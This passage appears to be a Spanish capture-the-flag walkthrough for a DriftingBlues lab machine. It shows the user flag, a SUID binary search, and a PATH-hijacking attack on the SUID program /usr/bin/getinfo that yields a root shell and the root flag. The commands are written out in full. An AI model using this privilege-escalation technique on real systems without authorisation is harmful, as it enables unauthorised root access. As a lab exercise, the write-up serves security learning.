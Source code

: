 
Listamos la Flag 1.

```bash
hubert@driftingblues:~$ cat user.txt
flag 1/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█
```

Listando los binario `SUID` observamos el mismo que en la resolución anterior `/usr/bin/getinfo`, con el mismo código.

```bash
hubert@driftingblues:~$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/getinfo
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
```

Podemos elevar nuestro privilegio realizando un `PATH Hijacking`.

Listamos la flag 2.

```bash
hubert@driftingblues:~$ cd /tmp/
hubert@driftingblues:/tmp$ export PATH=/tmp/:$PATH
hubert@driftingblues:/tmp$ echo '/bin/bash' > ip
hubert@driftingblues:/tmp$ chmod +x ip
hubert@driftingblues:/tmp$ /usr/bin/getinfo
###################
ip address
###################

root@driftingblues:/tmp# cd /root
root@driftingblues:/root# cat root.txt
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
```